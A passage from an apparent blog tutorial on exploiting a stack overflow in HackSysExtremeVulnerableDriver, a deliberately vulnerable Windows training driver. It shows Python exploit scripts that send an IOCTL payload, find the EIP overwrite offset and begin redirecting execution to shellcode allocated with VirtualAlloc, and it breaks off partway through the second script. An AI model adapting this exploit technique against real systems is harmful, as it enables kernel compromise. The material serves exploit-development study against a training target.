 ``` python
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-smep-bypass/
"""

from infi.wioctl import DeviceIoControl

DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'

IOCTL_HEVD_STACK_OVERFLOW = 0x222003

PAYLOAD = (
    b'<insert pattern here>'
)

SIZE = len(PAYLOAD)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
```

And check it:

<div class="imgblock">

![Mona Cyclic Pattern](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330917/blog/hevd-smep-bypass/mona2_nljhdo.gif)

</div>

Good, `mona` discovered that EIP gets overwritten starting at byte
`2080`.

Now, for illustration purposes, we’ll create a simple shellcode to make
`EAX = 0xdeadbeef`. Then, we must copy it in a dynamic generated
location created by `VirtualAlloc()`. The return value of
`VirtualAlloc()` is a pointer that will be placed starting at byte 2081
of our buffer to divert the execution flow to our shellcode.

Let’s update our exploit with that:

``` python
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-smep-bypass/
"""

import struct
from ctypes import windll, c_int
from infi.wioctl import DeviceIoControl

KERNEL32 = windll.kernel32
DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'
IOCTL_HEVD_STACK_OVERFLOW = 0x222003

```